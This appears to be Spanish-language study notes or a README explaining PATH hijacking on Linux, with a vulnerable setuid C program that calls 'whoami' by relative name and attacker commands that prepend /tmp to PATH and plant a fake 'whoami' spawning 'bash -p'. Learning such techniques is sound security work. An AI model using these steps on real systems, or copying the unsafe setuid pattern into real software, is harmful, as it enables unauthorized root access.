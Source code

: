 -- - 
PATH Hijacking es una técnica utilizada por los atacantes para secuestrar comandos de un sistema Unix/Linux mediante la manipulación del PATH. El PATH es una variable de entorno que define las rutas de búsqueda para los archivos ejecutables en el sistema.

### Ejemplo: 
*Maquina victima*
```c
	
	#include <stdio.h> 

int main(){
	setuid(0);
	printf("\n[*] Actualmente somos el suigiuiente usuario:\n\n"); 
	system("/usr/bin/whoami");
	printf("\n[+] Actualmente somos el suigiente usuario:\n\n");
	system("whoami");
	return 0;
}
```
*Atacante:*

```bash
echo $PATH 
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

export PATH=/tmp/:$PATH 
nano whoami --> "bash -p"

```
